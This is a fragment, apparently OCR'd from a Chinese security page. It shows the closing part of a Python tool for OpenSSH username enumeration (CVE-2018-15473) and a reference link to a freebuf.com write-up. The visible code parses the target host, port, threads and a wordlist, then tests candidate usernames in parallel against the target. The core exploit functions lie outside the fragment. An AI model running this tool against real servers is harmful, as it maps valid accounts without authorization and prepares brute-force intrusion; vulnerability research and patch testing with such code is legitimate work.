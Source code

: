         apply_monkey_patch()

        if kwargs.get('username'):
            kwargs['username'] = kwargs.get('username').strip()
            return connect(**kwargs)

        with multiprocessing.Pool(kwargs.get('threads')) as pool, Path(kwargs.get('wordlist')).open() as usernames:
            host = kwargs.get('hostname')
            port = kwargs.get('port')
            verbose = kwargs.get('verbose')
            pool.starmap(connect, [(user.strip(), host, port, verbose) for user in usernames])


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description="OpenSSH Username Enumeration (CVE-2018-15473)")

        parser.add_argument('hostname', help='target to enumerate', type=str)
        parser.add_argument('-p', '--port', help='ssh port (default: 22)', default=22, type=int)
        parser.add_argument('-t', '--threads', help="number of threads (default: 4)", default=4, type=int)
        parser.add_argument('-v', '--verbose', action='store_true', default=False,
                            help="print both valid and invalid usernames (default: False)")
        parser.add_argument('-6', '--ipv6', action='store_true', help="Specify use of an ipv6 address (default: ipv4)")

        multi_or_single_group = parser.add_mutually_exclusive_group(required=True)
        multi_or_single_group.add_argument('-w', '--wordlist', type=str, help="path to wordlist")
        multi_or_single_group.add_argument('-u', '--username', help='a single username to test', type=str)

        args = parser.parse_args()

        logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

        main(**vars(args))

参考链接
--------

> https://www.freebuf.com/vuls/184583.html
